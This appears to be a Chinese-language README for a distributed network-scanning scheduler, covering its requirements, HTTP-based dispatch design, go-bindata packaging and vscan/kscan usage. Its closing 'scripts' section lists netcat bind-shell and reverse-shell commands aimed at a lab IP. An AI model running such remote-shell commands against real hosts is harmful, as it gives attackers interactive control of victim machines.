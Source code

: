 # 项目要求
```go
扫描调度框架，建议实现如下功能:
1、扫描器一键发布（通过提供ssh地址、账号、密码，实现一键发布）
2、任务增、删、改、查，状态监控
3、扫描结果回传、展示（在调度框架上实现初步展示）
4、扫描结果与网络空间测绘平台对接，清洗、入库
```
# 一 整体设计

![](./screenshot/manager.png)

## 1 通讯逻辑
```go
通讯方式改为了中心节点向worker发送http心跳请求
work节点就是一个http的服务
中心调度系统确实也是可以分布式的
```

## 2 调度逻辑

中心节点遍历任务，抢锁后通过http请求分发任务

# 二 源码相关

## 1 静态资源的打包

所用的包
```go
Go 语言打包静态文件以及如何与Gin一起使用Go-bindata
```

安装方法
```go

go get -u github.com/jteeuwen/go-bindata/...

安装前需要先关闭go mod
go env -w GO111MODULE=off

#通过命令行加入GOBIN的PATH
export PATH=$PATH:$GOPATH/bin
#编辑启动配置文件，开机后自动加载这个路径
nano ~/.bashrc
#编辑完成后，重新加载环境变量到内存
source ~/.bashrc

```

前端修改后打包进go项目
```go
go-bindata -o=core/utils/asset/asset.go -pkg=asset web/crocodile/... sql
```

# 三 项目的安装

数据库是先要新建的   表和数据是通过代码初始化的


#
vscan -host {ip} -p {port} -json -o {res}

 apt install libpcap-dev


kscan -t {ip} -p {port} -oJ {res}



# 脚本
## 主动shell
nc -lvvp 6666 -e /bin/sh   主动shell

nc 192.168.56.132 6666  攻击机联

## 反弹shell
nc 192.168.56.132 4444 -e /bin/bash    被攻击主动的联 132
nc -lp 4444     攻击机可以处理
  